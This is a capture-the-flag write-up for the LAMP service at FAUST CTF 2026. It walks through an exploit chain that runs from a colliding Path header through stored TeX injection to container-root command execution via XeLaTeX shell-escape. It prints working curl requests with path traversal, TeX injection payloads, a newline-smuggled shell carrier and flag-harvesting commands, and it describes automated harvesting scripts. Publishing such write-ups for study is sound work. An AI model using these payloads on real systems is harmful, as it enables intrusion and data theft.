





# LAMP

> **FROM A PATH HEADER TO CONTAINER-ROOT RCE THROUGH XeLaTeX**


---

## What the Hell Is LAMP?

LAMP was one of the services deployed during **FAUST CTF 2026**.

From the outside, it behaved like a fairly normal web application: users
could register accounts, create ships, add components, and interact with
them through HTTP.

The implementation was considerably less normal.

Large parts of the application were implemented in **XeLaTeX**.

XeLaTeX was started with:

```text
--shell-escape
```

Which is about the point where the phrase:

> "the web server is written in LaTeX"

stops being funny and starts becoming an exploit chain.

For this writeup, the general mood can be summarized as:

```text
LaTeX // MariaDB // Redis // Pain
```

---

## The Bug Chain

The final exploit was not one single vulnerability.

It was a chain of smaller behaviours which became considerably more
interesting when combined.



The resulting command execution ran as **root inside the LAMP service
container**.

This repository does **not** claim host-level root compromise of the
underlying Vulnbox.

---

## 1. Path Header Overwrite

LAMP parsed the HTTP request path into the TeX macro:

```tex
\httpPath
```

HTTP headers were then dynamically exposed as TeX control sequences using
a pattern equivalent to:

```tex
\http<HeaderName>
```

That meant the HTTP header:

```http
Path: /../../etc/hostname
```

could collide with:

```tex
\httpPath
```

and overwrite the request path after the original request target had
already been parsed.

The interesting part was the order of operations.



This provided an arbitrary readable-file primitive inside the service
container.

Example:

```bash
curl -g -6 --noproxy '*' \
  --path-as-is \
  -H 'Path: /../../etc/hostname' \
  'http://[TARGET]:1337/'
```

The same primitive later became a convenient output channel for command
execution.

---

## 2. Stored TeX Injection

Components had a `typ` field which the frontend expected to contain one
of three values:

```text
light
button
source
```

The vulnerable backend, however, accepted arbitrary values.

The value travelled through several different interpreters:



The value was escaped for **SQL**.

It was not made safe for **TeX**.

That distinction turned a harmless-looking database field into a stored
TeX injection primitive.

---

## 3. The Weird Backslash Trick

Literal backslashes were inconvenient to move through the complete input
path.

Fortunately, TeX has opinions.

The sequence:

```text
^^5c
```

represents hexadecimal character `0x5c`.

Which is:

```text
\
```

That allowed payloads such as:

```text
^^5cUseName{@@input}|"id>/x"
```

to eventually become:

```tex
\UseName{@@input}|"id>/x"
```

With shell escape enabled, this crossed the final boundary from TeX into
the operating system.

The command output was redirected into `/x`, which could then be
retrieved using the earlier `Path:` primitive:

```bash
curl -g -6 --noproxy '*' \
  --path-as-is \
  -H 'Path: /../../x' \
  'http://[TARGET]:1337/'
```

During testing, this returned output equivalent to:

```text
uid=0(root) gid=0(root) groups=0(root)
```

Again:

**container root, not host root.**

---

## 4. Root RCE, But Make It Tiny

There was one minor problem.

The useful component field gave us approximately **32 bytes** of payload
space.

Enough for:

```text
id>/x
```

Not enough for a useful flag-harvesting command.

So instead of trying to make the TeX payload larger, the exploit stored
the real shell command somewhere else.

---

## 5. The Ship-Name Carrier

Registration stored a user's ship name beneath:

```text
/storage/<username>.tex
```

The storage routine escaped several TeX-sensitive characters.

It did not escape a newline.

A ship name beginning with something like:

```text
<newline>ls /storage>/x;:
```

could therefore produce a file resembling:

```tex
\def \shipname {
ls /storage>/x;:}
```

As TeX, this is unpleasant.

As a shell script, the middle line is perfectly useful.

The exploit could therefore split itself into two pieces:



One of the competition launchers became:

```text
^^5cUseName{@@input}|"sh /s*/Q*"
```

Yes.

That is a real payload.

No.

I do not recommend designing production infrastructure around it.

---

## 6. Finding the Flags

Checker-created ship state was persisted beneath:

```text
/storage/
```

The first approach was approximately:

```bash
grep -R FAUST /storage
```

Technically successful.

Operationally terrible.

Attack/Defense flags expire, so this mostly created a beautiful museum of
historical flags.

The later harvester instead selected recent checker-looking files:

```bash
ls -1t /storage/????????????????.tex | head -30
```

and searched only those:

```bash
cat /v3 | xargs grep -h FAUST >/v4
```

Stored underscores appeared as:

```text
\Uchar95
```

so results were normalized locally:

```bash
perl -pe 's/\\Uchar95\s*/_/g' |
grep -aoE 'FAUST_[A-Za-z0-9+/]{32}' |
sort -u
```

At that point the service had gone from:

> "why is this web server XeLaTeX?"

to:

> "automated flag harvesting"

which feels like a reasonable escalation.

---

## Exploit Toolkit

The `exploit/` directory contains the automation developed during the
competition.

- **`lamp-brrr.sh`** — multi-team flag harvester. Creates carriers,
  triggers the stored-TeX RCE, retrieves results through the `Path:`
  primitive, extracts flags, and optionally submits them through MOTH.
- **`lamp-probe.sh`** — lightweight classifier used to distinguish
  vulnerable, patched, unreachable, and registration-broken targets.
- **`lamp-loop.sh`** — continuous Attack/Defense wrapper that periodically
  re-probes the fleet, harvests currently vulnerable targets, remembers
  previously seen flags, and submits only new ones.
- **`archive/lamp-brrr-v2.sh`** — preserved second competition copy of the
  harvester. It is byte-for-byte identical to the first one. Apparently
  one copy of this thing was not enough.

The scripts are preserved primarily as competition artifacts rather than
examples of beautiful software engineering.

They were written while targets disappeared, defenders patched underneath
us, flags expired, and XeLaTeX continued being XeLaTeX.

Please grade the gremlin accordingly.

---

## MOTH

Recovered flags were submitted through our internal **MOTH** flag
submission service.

Submission credentials are deliberately **not** included in this
repository.

The exploit expects the token through the environment:

```bash
export MOTH_API_TOKEN='...'
```

For a non-submitting run:

```bash
SUBMIT=0 ./exploit/lamp-brrr.sh
```

For selected teams only:

```bash
ONLY_TEAMS='45,451' \
SUBMIT=0 \
./exploit/lamp-brrr.sh
```

Competition-specific infrastructure details should be replaced before
reusing the tooling in another authorized environment.

---

## Defensive Fixes

The exploit stopped working once defenders closed the individual
primitives.



The interesting part of the vulnerability was not simply that
`--shell-escape` existed.

The real problem was repeatedly allowing attacker-controlled **data to
become executable TeX**.

---

## Report

The accompanying technical report documents the exploit from source-code
analysis through live Attack/Defense automation.

It covers:

1. What the Hell Is LAMP?
2. Service Overview: HTTP, but Make It TeX
3. Path Header Overwrite
4. Stored TeX Injection
5. From TeX Injection to Container-Root RCE
6. Bypassing the 32-Byte Limit
7. Finding and Harvesting the Flags
8. Automating the Exploit
9. Live CTF Results
10. Root Cause, Fixes, and Lessons Learned

The goal is not to explain every corner of TeX.

The goal is to preserve enough of the weird behaviour that future-me can
still answer:

> "Why the fuck did `Path:` eventually give us root RCE again?"

---

## Competition Context

This research was performed during **FAUST CTF 2026**, an authorized
Attack/Defense competition environment.

**Team:** `t3l3tzp3_wu3`  
**Final placement:** #107 overall / #47 low-LLM  
**Final score:** 3931.63

LAMP produced accepted offensive flag submissions during the live
competition before vulnerable teams deployed fixes.

---

## Scope and Ethics

Everything in this repository was developed for an authorized CTF
environment.

The exploit code is published for technical documentation, education,
reproducibility, and future CTF reference.

Do not point it at systems you do not own or have explicit permission to
test.

---

## Final Words

LAMP started as a web application.

Then HTTP headers became TeX macros.

Database strings became TeX macros.

Ship names became shell scripts.

XeLaTeX became root.

And eventually:

> **LAMP went brrr.**

---

**Author:** Denis Krüger  
**Event:** FAUST CTF 2026  
**Category:** Attack / Defense  
**Service:** LAMP  
**Impact:** Container-root RCE  
**Status:** Exploit documented. Gremlin contained.